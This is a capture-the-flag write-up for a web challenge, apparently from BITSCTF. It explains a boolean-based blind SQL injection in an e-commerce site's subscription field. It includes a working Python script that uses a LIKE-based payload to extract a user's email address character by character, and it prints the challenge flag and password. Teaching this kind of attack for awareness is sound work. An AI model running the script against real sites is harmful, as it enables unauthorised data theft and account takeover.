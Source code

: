 ## Too Blind To See
## Category : Web 


## Description
Mogambro, our rookie intern, just stepped foot into the prestigious Software Firm. His big moment, the first project review, is knocking at the door like a pesky neighbor. But wait! Somewhere in his app lurks a secret which the admins are not aware of, hidden behind the password 'fluffybutterfly'. Can you crack the code and rescue Mogambro from this password puzzle? The clock is ticking!

## Link
http://20.244.82.82:7000/

##Solution
![Home page](./images/home.png)

The challenge intended to test the knowledge of the participants of sql injection. The webpage is that of a simple e commerce website. Once you click on the link you can see a login option on the home page 

![Login Panel](./images/admin_panel.png)

You can see that there are two login options, one for the admin and other for regular users. As mentioned in the description that the admins are not aware of the secret hidden behind the password `fluffybutterfly` one can conclude that the flag is not in the admin login (you would get a fake flag if you try sql injection in the admin login ;)). So we now know that the flag is hidden behind the regular user login.Since we have the password we only need to get the email address somehow. 

![Login Panel](./images/exploit.png)


Going back to the home page. You can see that there is a bar in the footer that asks the user to subscribe.This bar asks you your email. When you enter your email you either get a message that the email exists or it does not exist. This is a hint that the email is vulnerable to boolean based sql injection or blind sqli.
![Login Panel](./images/verification.png)

Using the following python script you can get the email address of the user. 
```python 
import requests


url = "http://20.244.82.82:7000/final-destination"


charset = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@.'


email = ''


while True:
    for char in charset:
       
        payload = f"' OR email LIKE '{email}{char}%'--"
        
       
        data = {
            'email': payload,
            'password': 'fluffybutterfly' 
        }
        
        
        response = requests.post(url, data=data)
        
        
        if "Email exists" in response.text:
            email += char
            print("Discovered email:", email)
            break
    else:
        break

print("Enumeration complete. Discovered email:", email)
```

Once you have the email you just put it in the login page and the password `fluffybutterfly` and you get the flag.

![Login Panel](./images/flag.png)

The aim of this challenge was to make the user aware that even the most uncommon places can be vulnerable to sql injection. With the advent of advanced tools such bugs are easier to spot but one should always be aware of the basics.


## Flag
`BITSCTF{5UB5Cr183r5_4r3_M0r3_7HAN_JU5T_C0N5UM3r5}`

## Author
[@DarthLazius](https://github.com/darthlazius)

